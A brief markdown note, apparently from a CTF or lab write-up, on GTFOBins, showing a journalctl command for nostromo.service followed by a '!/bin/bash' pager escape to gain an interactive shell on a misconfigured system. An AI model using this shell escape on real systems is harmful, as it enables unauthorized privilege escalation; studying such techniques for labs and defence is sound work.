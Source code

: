 # GTFOBins 🔢

[GTFOBins](https://gtfobins.github.io/)

This is a collection of `binaries` that can be used to bypass local security restrictions in misconfigured systems. 

```shell
/usr/bin/journalctl -n5 -unostromo.service
```

```shell
!/bin/bash
```

Pay attention because kitty has trouble with the interactive shell.